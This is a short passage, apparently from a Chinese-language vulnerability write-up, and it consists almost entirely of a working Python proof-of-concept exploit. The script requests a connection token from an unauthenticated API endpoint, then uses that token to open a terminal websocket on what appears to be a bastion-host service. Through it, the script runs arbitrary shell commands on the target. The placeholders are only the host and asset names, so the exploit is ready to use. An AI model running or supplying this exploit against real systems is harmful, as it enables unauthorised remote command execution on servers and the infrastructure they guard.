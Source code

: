 发现是可以连接的。

**POC**

```plain
import asyncio
import websockets
import requests
import json
# 向服务器端发送认证后的消息
async def send_msg(websocket,_text):
    if _text == "exit":
        print(f'you have enter "exit", byebye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
async def main_logic(cmd):
    print("------*******start ws*****--------")
    async with websockets.connect(target) as websocket:
        recv_text = await websocket.recv()
        print(f"{recv_text}")
        resws=json.loads(recv_text)
        id = resws['id']
        print("get ws id:"+id)
        print("###############")
        print("init ws")
        print("###############")
        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket,inittext)
        for i in range(20):
            recv_text = await websocket.recv()
            #recv_text=json.loads(recv_text)
           # print(f"{recv_text['data']}")
        print("###############")
        print("exec cmd: %s"%cmd)
        cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd+"\r\n"})
        print(cmdtext)
        await send_msg(websocket, cmdtext)
        for i in range(20):
            recv_text = await websocket.recv()
            recv_text=json.loads(recv_text)
            print(recv_text['data'])
        print('#######finish')
url = "/api/v1/authentication/connection-token/?user-only=None"
host="http://x.x.x.x:8080"
cmd="ifconfig"
if host[-1]=='/':
    host=host[:-1]
print(host)
data = {"user": "xxx", "asset": "xxx",
        "system_user": "xx"}
print("#################################")
print("get token url:%s" % (host + url,))
print("################################")
res = requests.post(host + url, json=data)
token = res.json()["token"]
print("token:%s", (token,))
print("####################################")
target = "ws://" + host.replace("http://", '') + "/koko/ws/token/?target_id=" + token
print("target ws:%s" % (target,))
asyncio.get_event_loop().run_until_complete(main_logic(cmd))
```